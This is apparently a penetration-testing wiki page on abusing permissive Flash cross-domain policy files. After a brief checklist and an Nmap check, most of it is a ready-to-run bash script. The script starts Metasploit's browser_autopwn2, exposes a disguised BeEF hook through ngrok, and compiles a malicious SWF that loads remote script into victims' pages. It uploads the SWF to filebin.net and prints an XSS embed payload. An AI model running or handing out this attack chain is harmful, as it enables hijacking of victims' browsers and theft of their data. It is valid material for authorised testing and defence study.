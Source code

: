 # RIA Cross Domain Policy

## Check List

* [ ] Review and validate the policy files.

## Methodology

{% stepper %}
{% step %}
### CrossDomain.xml & clientaccesspolicy.xml file
{% endstep %}

{% step %}
Check and identify the presence of crossdomain.xml & clientaccesspolicy.xml files on the target using Nmap command.
{% endstep %}

{% step %}
If the files exist, we run them using the next command, which is a script related to BeEF
{% endstep %}

{% step %}
Vulnerability Conditions The `crossdomain.xml` file is overly permissive (`<allow-access-from domain="*">`) Sensitive data or actions are accessible on the target domain
{% endstep %}

{% step %}
Exploit Modify the ActionScript to fetch sensitive data from the target domain and send it to a malicious server Compile the ActionScript into an SWF file
{% endstep %}

{% step %}
Capture Data Use a script to capture stolen data from the victim when they load the malicious SWF Direct the victim to a page with the malicious SWF, ensuring they are logged into the target site Review the data captured on the malicious server for sensitive information
{% endstep %}
{% endstepper %}

## Cheat Sheet

### Check Policy Files Weakness

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Check crossdomain.xml & clientaccesspolicy.xml
{% endhint %}

```bash
nmap -p 80,443 \
     -sS -sV --mtu 5000 \
     --script http-cross-domain-policy \
     --script-args http-cross-domain-policy.domain-lookup=true $WEBSITE
```

### [BeEF](https://github.com/beefproject/beef) (SWF)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beefer.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    printf "${GREEN}[*] sudo ./beef-csp-bypass.sh\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Run Ngrok
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y;use auxiliary/server/browser_autopwn2;set LHOST $WAN;set URIPATH /pwn;run -z" >/dev/null 2>&1 &
sleep 1
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi
printf "${GREEN}[*] BeEF with new configuration...${RESET}\n"

# Start BeEF XSS framework
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Create the SWF payload
cat <<EOF > /tmp/beef.as
package {
    import flash.display.MovieClip;
    import flash.net.URLRequest;
    import flash.net.navigateToURL;

    public class beef extends MovieClip {
        public function beef() {
            var request:URLRequest = new URLRequest("javascript:function myFunction(){var x = document.createElement('SCRIPT');x.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(x);};myFunction();");
            navigateToURL(request);
        }
    }
}
EOF
/opt/flex-sdk/bin/mxmlc /tmp/beef.as -output /tmp/logo.swf &>/dev/null &
rm -f /tmp/beef.as
printf "${GREEN}[*] SWF payload generated successfully...${RESET}\n"

# Upload to Filebin and Display Payload
bin_id=$(curl -s https://filebin.net | grep -oP 'href="https://filebin.net/(\w+)"' | sed -E 's/href="https:\/\/filebin.net\/([a-zA-Z0-9]+)"/\1/')
curl -s -X POST "https://filebin.net/${bin_id}/logo.swf" -H "Content-Type: application/x-shockwave-flash" --data-binary "@/tmp/logo.swf"
rm -f /tmp/logo.swf
clear
printf "\n\n"
printf "${CYAN}XSS Payload:${RESET}\n"
printf "\n"
printf "${YELLOW}<object type=\"application/x-shockwave-flash\" data=\"https://filebin.net/${bin_id}/logo.swf\"><param name=\"movie\" value=\"https://filebin.net/${bin_id}/logo.swf\"></object>"
printf "\n"
printf "${CYAN}BeEF Panel: https://${NGHOST}/ui/panel${RESET}\n"
printf "${CYAN}BeEF USER: unk9vvn${RESET}\n"
printf "${CYAN}BeEF PASS: 00980098${RESET}\n"
printf "\n"
printf "${GREEN}BeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute${RESET}\n"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beefer.sh;sudo ./beefer.sh
```
